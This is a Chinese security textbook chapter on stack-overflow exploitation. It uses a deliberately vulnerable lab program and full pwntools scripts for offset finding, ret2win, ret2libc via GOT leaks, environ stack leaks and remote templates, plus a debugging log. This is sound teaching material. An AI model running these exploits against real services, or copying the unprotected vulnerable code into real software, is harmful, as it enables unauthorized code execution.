

# 第八章　二进制实战：栈、ROP 与 pwntools

上一章的战场在 HTTP 里，你看到的每一样东西都是文本。这一章往下掉一层，你面对的是一个编译好的可执行文件，没有源码，只有一堆字节和几个符号。你的输入变成一段二进制，塞进它的标准输入，然后看它怎么崩。

栈溢出是最老的漏洞类型之一，教科书上讲了三十多年。它今天还在一线出现，原因是 C 语言里那些不检查长度的函数还在被使用，编译器默认的保护也不是全开的。理解它的价值不在于能打穿什么，而在于它把内存、调用约定、地址这几件事串成了一条完整的链。这条链搞清楚，后面看堆、看内核都会快很多。

这一章的所有操作都在自己编译的靶程序上完成。真实产品上做同样的事是另一回事，法律上的边界很清楚。

## 8.1 先看清楚面前有什么

拿到一个二进制，第一件事不是跑它，是看它的保护。

```bash
checksec --file=./vuln
```

`checksec` 来自 pwntools，装上之后就是一条命令。输出是一张表，四行最常看。

```text
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

`Stack` 这一行说的是栈保护符（canary）。有它的话，溢出发生时函数返回前会发现哨兵被改，直接 `__stack_chk_fail` 退出。没有它，溢出才能走到返回地址。

`NX` 说的是栈可不可以执行。开了 NX，往栈上写 shellcode 再跳过去这条路就断了，得改成借用已有代码，也就是后面要讲的 ROP。

`PIE` 说的是整个程序本身是否随机加载。`No PIE` 意味着代码段的地址固定，`0x400000` 就是基址，函数地址可以直接从符号表里读出来，写完就能用。开了 PIE，得先泄漏一个地址才能算基址。

`RELRO` 影响的是 GOT 表能不能被改写，和这一章的关系不大，但写利用时要知道 `Full RELRO` 下 GOT 是只读的。

先写一个靶程序。它足够简单，简单到能一眼看出问题在哪。

```c
// vuln.c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void win(void) {
    system("/bin/sh");
}

int main(void) {
    char buf[64];
    read(0, buf, 256);
    return 0;
}
```

`read` 读了 256 字节到一个 64 字节的数组里。编译时把保护关掉，模拟一个没有加固的程序。

```bash
gcc -fno-stack-protector -no-pie -o vuln vuln.c
```

用 `read` 而不是 `gets`，是因为 `gets` 遇到换行就停，payload 里不能带 `\x0a`。`read` 按字节数读，二进制数据能原样送进去。这个细节在写利用时会反复出现。

栈帧的结构值得在动手前想清楚。调用一个函数时，`call` 会把返回地址压栈，被调函数再把旧的 `rbp` 压栈，然后才给自己的局部变量分配空间。所以从 `buf` 的底部往高地址走，依次是 64 字节的数组、8 字节的旧 `rbp`、8 字节的返回地址，再往下是调用者的栈帧。溢出的写入方向正好与这个顺序一致，多写的字节会一个接一个地踩过去。

64 位下还有一个容易记错的地方，函数参数不走栈。前六个整数参数分别放 `rdi`、`rsi`、`rdx`、`rcx`、`r8`、`r9`，第七个开始才压栈。这意味着想调用 `system("/bin/sh")`，光把地址排在栈上没用，必须先把参数弄进 `rdi`。32 位不是这样，参数直接跟在返回地址后面，所以 32 位的 ret2libc 比 64 位短很多。

## 8.2 用 pattern 找偏移

要覆盖返回地址，得知道 payload 的第几个字节会落到那里。手数是 64 加 8 等于 72，但那是因为有源码。没有源码的时候，用一串有规律的字符去找。

pwntools 的 `cyclic` 生成这种字符串，每四个字节一个标记，任意一段都能反查出位置。

```bash
pwn cyclic 200
```

把它喂给程序，让它崩，然后看崩溃时的 `rip` 或者栈上被覆盖的返回地址。

```bash
pwn cyclic 200 | ./vuln
```

在 gdb 里做同样的事，能看到更多。

```bash
gdb ./vuln
pwndbg> run < <(pwn cyclic 200)
pwndbg> info registers rip
```

`rip` 的值会是类似 `0x6161616c6161616b` 的东西，这就是 pattern 里的一段。把它交给 `pwn cyclic -l` 反查。

```bash
pwn cyclic -l 0x6161616c
```

输出 72。这个数字的含义是，从 `buf` 开头到返回地址之间隔了 72 字节，填满这 72 字节之后写下去的 8 个字节就是新的返回地址。

pwndbg 里还有一个更省事的命令，`cyclic -l $rsp`，直接对栈顶那块内容反查。如果崩溃时 `rsp` 正好指向 payload 里没被用掉的部分，`cyclic -l` 给出的偏移就是 gadget 应该出现的位置。

偏移算错是新手最常见的失败。算错的典型表现是 `rip` 变成 `0x4141414141414141`，说明填充多写了或少写了 8 个字节。遇到这个值，不要重新猜，回到上一步用 pattern 再跑一次。

pattern 之所以能用，是因为它的设计保证任意四个连续字节在整个串里只出现一次。所以只要拿到被覆盖的那一小段，就能反推出它在原串里的位置，而这个位置就是偏移。同一个程序里，栈上的偏移是固定的，除非编译器版本或者编译选项变了。换一台机器重新编译，偏移可能从 72 变成 88，因为编译器插入的临时变量不同。

32 位程序上这个步骤要小心一点。`cyclic` 默认按 4 字节对齐生成，覆盖返回地址的那一格正好是四个字符，`cyclic -l` 给出的结果是正确的。64 位上是 8 字节，pwntools 会自动按当前架构处理，但如果手工拼串，就容易算出偏移 76 这种不是 8 的倍数的结果。

## 8.3 排 payload：对齐、地址与 gadget

payload 的结构是两部分，填充加上要写入的地址序列。

<figure>

<figcaption>图 8-1　payload 与栈帧的对应关系。写入从 buf 底部向高地址推进，先踩掉 saved rbp，再踩掉返回地址，返回地址之后的字节会成为下一个函数的栈。</figcaption>
</figure>

第一个最小的利用是直接跳到 `win`。程序里已经有这个函数，不用自己写代码，只要把返回地址改成它的入口。

```python
from pwn import *

elf = ELF("./vuln", checksec=False)
context.binary = elf

p = process("./vuln")
p.send(flat(b"A" * 72, elf.symbols["win"]))
p.interactive()
```

`flat` 是 pwntools 里负责拼字节的函数，它会按当前架构的字长自动补齐每个整数，32 位补 4 字节，64 位补 8 字节。手写 `p64()` 也行，用 `flat` 更不容易错。

跑起来可能会遇到一个问题，shell 起来了但立刻退出，或者干脆段错误在 `system` 里面。这不是 payload 错了，是对齐问题。

x86-64 的调用约定要求，执行 `call` 指令时栈指针是 16 字节对齐的。函数刚进来时，`rsp % 16` 等于 8，因为返回地址占了 8 个字节。用 `ret` 跳到 `win` 时，栈的状态和正常调用不一样，`rsp % 16` 可能等于 0。glibc 里有些函数（比如 `printf` 内部的 `movaps`）要求对齐，不对齐就崩。

解决办法是在 `win` 前面多放一个 `ret` 指令的地址，让栈多弹一次，把对齐修正回来。

```python
rop = ROP(elf)
payload = flat(b"A" * 72, rop.find_gadget(["ret"]).address,
               elf.symbols["win"])
```

这类问题在 64 位上是常态，32 位上很少见。看到 `system` 里崩在一条 `movaps` 上，先怀疑对齐。

当程序里没有现成的 `win`，或者需要传参数，就得用 gadget。gadget 是程序或库里以 `ret` 结尾的短指令序列，最常用的是 `pop rdi; ret`，作用是把栈顶的值取出来放进 `rdi`，也就是第一个参数。

```bash
ROPgadget --binary ./vuln | grep "pop rdi"
```

pwntools 也能找，而且更省事。

```python
rop = ROP(elf)
rop.call("puts", [elf.got["read"]])
rop.call(elf.symbols["main"])
print(rop.dump())
```

`rop.dump()` 会把整条链打印出来，包括每个 gadget 的地址和栈上的布局。写利用时先看这个输出，比直接跑再看崩溃快得多。

gadget 的存在是 x86 指令变长的副作用。一条指令可以从任意字节开始解释，于是一段正常代码里，从某个中间字节开始读，可能恰好是一条 `pop rdi` 后面跟着 `ret`。扫描器做的事就是穷举这些起点，把能构成有用序列的片段收集起来。这也是为什么 gadget 的数量和二进制的大小关系不大，一个 4 KB 的函数里可能有几十个。

把这些片段串起来执行，就是返回导向编程。它的前提是程序里已经存在足够多的代码，且你能控制栈。防护做得好的时候，gadget 会变少，但仍然不会为零，因为编译器生成代码时无法避开所有组合。

## 8.4 从 ret2win 到 ret2libc

`win` 是靶程序送给你的一条捷径。真实程序里没有这个函数，但有 libc。

libc 是每个动态链接的程序都会加载的库，里面有 `system`，也有 `"/bin/sh"` 这个字符串。把它们找出来，就能拼出一次调用。麻烦的地方在于 libc 的加载地址是随机的，得先泄漏一个已知符号的运行时地址。

泄漏之所以能成立，靠的是 GOT 和 PLT 这套机制。程序调用一个库函数时，实际跳转的是 PLT 里的一小段跳板，跳板再去 GOT 表里取出真实地址。也就是说，GOT 表里存着 `read` 在内存中的真实位置。如果能让程序把一个 GOT 表项当成参数打印出来，地址就到手了。`puts` 正好合适，它接受一个指针，把它指向的字符串打印到换行符为止。地址的低位里通常会有一个 `\x00`，所以只读得到六个字节，剩下两个补零。

思路是这样的。用 `puts` 把 GOT 表里 `read` 的地址打印出来，然后返回 `main` 重新开始，第二次再发真正的利用。

```python
from pwn import *

elf = ELF("./vuln", checksec=False)
libc = ELF("./libc.so.6", checksec=False)
context.binary = elf

p = process("./vuln")

rop = ROP(elf)
rop.call("puts", [elf.got["read"]])
rop.call(elf.symbols["main"])
p.send(flat(b"A" * 72, rop.chain()))

leak = u64(p.recv(6).ljust(8, b"\x00"))
libc.address = leak - libc.symbols["read"]
log.success(f"libc base = {hex(libc.address)}")

rop2 = ROP(libc)
rop2.call("system", [next(libc.search(b"/bin/sh"))])
p.send(flat(b"A" * 72, rop2.chain()))
p.interactive()
```

`libc.so.6` 要从靶机上看，不是随便找一个。取法有两种，一是靶机上有 shell 时直接 `ldd ./vuln` 看路径，二是把文件拷回来。版本不对，符号偏移就全错，泄漏算出来的基址也是错的。

只有泄漏没有文件时，可以用 libc-database 或者 pwntools 的 `libcdb` 按地址的低位反查版本。

```bash
pwn libcdb lookup puts 0x7f1a2b3c4d50
```

低三位十六进制是页内偏移，在一个版本里是固定的，这就是反查的依据。查不到就说明这个地址属于一个没被收录的版本。

`one_gadget` 是另一条路，它直接在 libc 里找一个能满足所有条件的 `execve("/bin/sh", ...)` 位置，省掉拼链的功夫。条件是寄存器或者栈上要有特定的值，不满足就静默失败，所以用之前要确认条件。

第一次发完 payload 之后为什么要返回到 `main`，而不是直接继续往下写。因为发送出去的字节已经被读完了，内存里的旧数据也没了，想再发一遍 payload，得让程序回到一个能重新读输入的位置。返回到 `main` 是最简单的做法，代价是第二次进入时栈的状态和第一次略有不同，如果 payload 对栈的要求很严，可能会对不上。遇到这种情况，返回到一个带 `pop rbp; ret` 的地址，把栈拉回正常位置，比直接回 `main` 稳。

## 8.5 pwntools 模板与远程

写利用时最花时间的是反复调试，而不是想思路。一个固定的模板能省掉很多重复劳动。

```python
#!/usr/bin/env python3
from pwn import *

exe = "./vuln"
elf = ELF(exe, checksec=False)
context.binary = elf
context.log_level = "info"

def start():
    if args.REMOTE:
        return remote("127.0.0.1", 9999)
    if args.GDB:
        return gdb.debug(exe, gdbscript="b *main\ncontinue")
    return process(exe)
```

`args.REMOTE` 和 `args.GDB` 是 pwntools 自带的命令行开关，`python3 exp.py REMOTE` 就连远程，`python3 exp.py GDB` 就带调试器启动。同一份脚本两种用法，改起来快。

`gdb.debug` 需要本地装了 gdb 和 pwndbg，它会起一个终端窗口，断点已经设好。

远程那一端可以是靶场的服务，也可以是本地用 `socat` 模拟的。

```bash
socat TCP-LISTEN:9999,reuseaddr,fork EXEC:./vuln
```

`socat` 把每个连接映射成一个进程，和真实服务的行为很接近。`fork` 让它可以同时接多个连接，调试时不用重启。

`context.binary` 这一行会在发送时自动使用目标架构的字长，也会让 `flat` 按正确的方式补齐。忘了写它，32 位程序上会得到一堆 8 字节的地址。

交互部分的几个函数值得记住。`recvuntil(b"> ")` 读到指定标记为止，适合处理带提示符的程序。`sendafter(b":", payload)` 先等提示再发，避免 payload 在程序准备好之前就进了缓冲区。`p.interactive()` 把控制权交给终端，成功之后可以像本地 shell 一样敲命令。最后一行经常被忽略，但它决定了你需不需要重跑一遍。

调试时还有一个习惯值得养成，把每次发送的字节长度打印出来。`log.info(f"payload len = {len(payload)}")`，多一行日志，就能在失败时排除“发少了”这种最简单的可能。

## 8.6 失败时的排查顺序

利用不成功时，最浪费时间的行为是改 payload 再试一次。先定位，再改。

第一步看崩溃地址。`dmesg | tail` 会有一条 `segfault at ... ip ...`。如果 `ip` 是一串 `0x41414141`，说明返回地址被你的填充覆盖了，偏移算错或者 payload 没送到。如果 `ip` 是一个看起来像代码的地址，但不在预期的位置，看是不是 PIE 没关或者基址算错。

第二步看栈。在 gdb 里 `b *main+0x...`，跑起来之后 `telescope $rsp 20`。`telescope` 会把栈上的每个字解释成指针，能直接看出哪一格指向了代码段。如果返回地址那一格的值和你写的不一致，问题在发送环节，比如少了换行、多了字节、被截断。

第三步看对齐。崩溃在 `system` 内部并且 `ip` 落在一条 `movaps` 上，九成是对齐问题，加一个 `ret` gadget。

第四步看地址有没有猜对。ASLR 开着的时候，`libc` 和栈的基址每次都变，写死的地址只有第一次能中。看 `cat /proc/sys/kernel/randomize_va_space`，值为 2 表示全开。调试时可以临时关掉，但最终要写出带泄漏的版本。

第五步看数据有没有被截断。用 `gets`、`scanf("%s")`、`strcpy` 的输入遇到 `\x00`、`\x0a`、`\x20` 就会停。payload 里的地址经常带这些字节，发出去只剩一半。换一个不含这些字节的 gadget，或者改用 `read` 的入口。

第六步看 shell 有没有真的起来。很多时候 `system("/bin/sh")` 执行了，但 stdin 被前面的 `recvuntil` 读空了，shell 立刻读到 EOF 退出。加一个 `p.sendline(b"id")` 再 `p.recvline()` 就能确认。

还有一个容易被忽略的变量是运行环境。同一份 payload 在本地能打通、在远程打不通，除了 libc 版本，还可能是服务启动时带了不同的参数，或者标准输入被包装过一层。接远程之前先在本机用 `socat` 模拟一次，能排除掉大半差异。

排查的工具箱其实很小，一个调试器，一个能打印栈的命令，一个能看段错误地址的日志，再加一个稳定的复现方式。把这四样练熟，比记一百个 gadget 有用。

core dump 值得单独说一句。它把崩溃瞬间的整个进程状态写成一个文件，拿 gdb 打开就能看到当时所有寄存器和内存。开启方式是 `ulimit -c unlimited`，文件位置由 `/proc/sys/kernel/core_pattern` 决定。远程环境拿不到 core 的时候，退一步的办法是让程序自己打印，或者在本机用同样的 libc 版本复现。

## 8.7 泄漏的三种落点

返回到 `main` 重新开始这件事有个前提，第一轮里得先泄漏一个地址。泄漏的写法有三种，代价和稳定性不一样。

最常见的是拿 `puts` 打 GOT。它只接受一个参数，需要的 gadget 少，但遇到 `\x00` 就停。

```python
rop = ROP(elf)
rop.call("puts", [elf.got["read"]])
rop.call(elf.symbols["main"])
p.send(flat(b"A" * 72, rop.chain()))
leak = u64(p.recv(6).ljust(8, b"\x00"))
```

地址的高字节是 `0x00`，所以只能读到六个字节，剩下两个自己补。补的前提是你确定那个位置真的是零，而不是被其他数据挡住了。

第二种是 `write`，它接受三个参数，能把八个字节完整吐出来。

```python
rop = ROP(elf)
rop.call("write", [1, elf.got["read"], 8])
rop.call(elf.symbols["main"])
p.send(flat(b"A" * 72, rop.chain()))
leak = u64(p.recv(8))
```

代价是要凑齐 `pop rdi`、`pop rsi`、`pop rdx` 三个 gadget。小型二进制里 `pop rdx` 常常找不到，这时候要去 libc 里找，而 libc 的地址还不知道，绕回了无解。所以 `write` 适合 gadget 充足的目标，不适合拿来当默认选择。

第三种不靠 gadget，靠格式字符串。参数被当作 `printf` 的第一个参数时，把 GOT 地址当参数传进去，用 `%s` 读。它的好处是不需要任何 gadget，坏处是你必须已经有一个“能把输入当格式串”的漏洞，而这类漏洞比栈溢出少见。

泄漏回来之后第一件事是判形状。libc 的地址在 x86-64 上以 `0x7f` 开头，堆在 `0x55` 或 `0x56`，栈也是 `0x7f` 但离 libc 很远。拿到一个值先 `hex()` 看一眼，与预期不符就不要往下算基址，先去查读取长度。

```python
log.info(f"leak = {hex(leak)}")
if leak >> 40 != 0x7f:
    log.failure("不像是 libc 地址，检查 recv 长度和偏移")
```

`leak >> 40` 取的是最高两个字节，等于 `0x7f` 说明形状对。这个检查一行，能省掉后面半小时的无效猜测。

还有一类情况不需要泄漏，靠部分覆盖。返回地址和想要的 gadget 往往在同一个 4 KB 页里，把低两字节改掉就能跳过去，高六字节不动。成功的概率不是 1，因为低 12 位由页内偏移决定，不能变，能改的只有中间四位，所以命中率大约十六分之一。写循环跑十六次，或者用 `p.recvuntil` 检测后重试，都是常见做法。

拿到 libc 基址之后，第二轮可以去拿栈地址。`environ` 是 libc 里的一个符号，它的值就是环境变量数组的地址，而那个数组就在栈上。这个手法在很多题里是必须的，因为 GOT 里没有栈上的东西。

```python
rop2 = ROP(libc)
rop2.call("puts", [libc.symbols["environ"]])
rop2.call(elf.symbols["main"])
p.send(flat(b"A" * 72, rop2.chain()))
stack = u64(p.recv(6).ljust(8, b"\x00"))
log.info(f"stack = {hex(stack)}")
```

读出来应该以 `0x7ff` 开头，与 libc 的 `0x7f` 开头很像，位数不同。分不清这两个的时候，把值减一下 libc 基址，差值小到能放进一两页的就是 libc 内部，大到几百兆的才是栈。

偏移一律用文件算，不要背。

```bash
readelf -sW libc.so.6 | grep -E ' (system|read|environ)@@'
```

输出里的 `st_value` 就是相对基址的偏移，加上运行时基址就是真实地址。背下来的偏移在换一个发行版之后必错，而错的位置往往在最后一步，症状是 `system` 里崩，很容易被误判成对齐问题。

泄漏只做一次。拿到基址之后，后续所有 gadget 和字符串都从 libc 里取，`ROP(libc)` 会自动把偏移加上基址，比自己手加省事，也不容易漏加。唯一要注意的是“返回 `main`”那一步必须用二进制里的地址，因为 libc 里没有这个符号。

## 8.8 一次真的调试记录

把一次失败到成功的完整过程写下来，比一堆技巧有用。下面这份记录里四个错误都很典型。

第一轮，payload 发出去，进程直接崩。

```text
$ python3 exp.py
[+] Starting local process './vuln': pid 4127
[*] payload len = 80
[*] Process './vuln' stopped with exit code -11
```

`-11` 是 SIGSEGV。去内核日志拿地址。

```text
$ dmesg | tail -1
[4211.884] vuln[4127]: segfault at 4141414141414141 ip 4141414141414141 ...
```

`ip` 全是 `0x41`，说明返回地址被填充字节完全盖住了，跳过去当然崩。这不是 gadget 的问题，是偏移不对。回到 pattern 重测，得到 88 而不是之前算的 72，原因是编译器在这个函数里插了一个 16 字节的临时缓冲区，把栈拉开了。

第二轮，偏移改成 88，shell 起来了但立刻退出。

日志里能看到 `[*] Switching to interactive mode` 之后什么都没有。这类现象九成是标准输入已经被前面的 `recvuntil` 读空了，shell 读到 EOF 就退。加一行 `p.sendline(b"id")` 再 `p.recvline()`，能立刻分清是“没拿到 shell”还是“拿到了但没输入”。

第三轮，加了输入之后崩在 `system` 里。

```text
Program received signal SIGSEGV
0x00007f2a1c4b2e87 in __libc_system () from /lib/x86_64-linux-gnu/libc.so.6
=> 0x7f2a1c4b2e87 <__libc_system+39>: movaps %xmm0,0x40(%rsp)
```

崩在 `movaps` 上，又是在 `system` 内部，不用想别的，对齐问题。在 `win` 前面插一个 `ret` gadget，让栈多弹一次。

```text
gadget 1: 0x0000000000401016 (ret)
```

第四轮，本地通了，接到远程又崩。原因不在 payload，在 libc 版本。两边的 `read` 偏移不一样，算出来的基址就是错的。

```bash
pwn libcdb lookup read 0x7f2a1c3c1a10
```

查不到就去靶机上 `ldd`，把 `libc.so.6` 拷回来，之后所有偏移都用它算。

这份记录里没有一步是靠猜的。每一轮都先有一个可观测的现象，再有一个能解释它的假设，最后有一个最小的改动。写利用的过程就是反复做这三件事，把“它又崩了”拆成一条具体的信息。四轮下来 payload 只改了五行，每一行都能对应到前面某个具体的报错，没有一行是凭感觉改的。

日志那个习惯值得写成两个小函数，放在模板里。

```python
def send(mark, data):
    log.info(f">> {mark} {len(data)} bytes")
    p.send(data)

def recv(mark, n):
    data = p.recv(n, timeout=2)
    log.info(f"<< {mark} {len(data)} bytes {data!r}")
    return data
```

`recv` 里的 `timeout` 不能省。没有它，对方不回时就永久挂住，你无法区分“对方没回”和“脚本死了”。有了它，超时会返回空字串，日志里就是一行 `<< leak 0 bytes b''`，一眼就能看出问题在哪一步。

core 文件能让失败变得可回放。开启之后崩一次就有了一份现场，用 gdb 直接打开，不需要重新跑。

```bash
gdb -q ./vuln core -batch -ex 'info registers rip rsp' -ex 'x/8gx $rsp'
```

这份输出比屏幕上刷过去的东西可靠，因为它不会被后续输出冲掉。远程拿不到 core 时，退一步的做法是在本地用同一个 libc 复现，或者让程序自己把崩溃地址打出来。

返回到 `main` 之后栈上的状态和第一次不同。`__libc_start_main` 调 `main` 时保证 16 字节对齐，而我们用 `ret` 跳回来，栈上多了一个自己写进去的地址。有些题里这会让第二轮的偏移差 8 字节，症状是泄漏阶段能过、利用阶段崩。遇到时把返回目标从 `main` 换成 `main` 里第一条指令之后的位置，或者先 `pop rbp; ret` 把栈拉回去。

堆上的问题比栈复杂一个量级。栈的布局由编译器决定，每次调用都一样；堆的布局由程序自己的分配和释放顺序决定，同一个漏洞在不同运行次数下表现可能不同。下一章进堆。
